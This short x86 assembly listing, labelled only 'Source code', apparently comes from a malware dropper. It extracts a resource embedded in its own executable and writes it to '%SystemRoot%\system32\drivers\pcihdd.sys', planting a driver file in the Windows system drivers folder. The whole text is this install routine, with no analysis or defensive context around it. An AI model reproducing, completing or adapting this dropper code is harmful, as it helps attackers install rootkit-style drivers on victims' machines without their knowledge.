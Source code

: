 mov  hResInfo,  eax
push  eax    ; hResInfo
push  hModule    ; hModule
call  SizeofResource
mov  nNumberOfBytesToWrite, eax

push  hResInfo  ; hResInfo
push  hModule    ; hModule
call  LoadResource
or  eax, eax
jz  failed

push  eax    ; hResData
call  LockResource
or  eax, eax
jz  failed
mov  lpBuffer,  eax

failed:
or  eax, eax
jnz  CONTINUE
jmp  Exit

CONTINUE:    ; nSize
push  100h
lea  eax, @FileName
push  eax    ; lpDst
push  offset Src  ; "%SystemRoot%\system32\drivers\pcihdd.sys"
call  ExpandEnvironmentStringsA

push  0    ; hTemplateFile
push  80h    ; dwFlagsAndAttributes
push  4    ; dwCreationDisposition
push  0    ; lpSecurityAttributes
push  0    ; dwShareMode
push  40000000h  ; dwDesiredAccess
lea  eax, @FileName
push  eax    ; lpFileName
call  CreateFileA
cmp  eax, 0FFFFFFFFh
jnz  short CREATEFILEOK
jmp  Exit

CREATEFILEOK:
mov  hObject, eax
push  0    ; lpOverlapped
lea  eax, NumberOfBytesWritten
push  eax    ; lpNumberOfBytesWritten
push  nNumberOfBytesToWrite ; nNumberOfBytesToWrite
push  lpBuffer  ; lpBuffer
push  hObject   ; hFile
call  WriteFile

push  hObject          ; hFile
call  SetEndOfFile
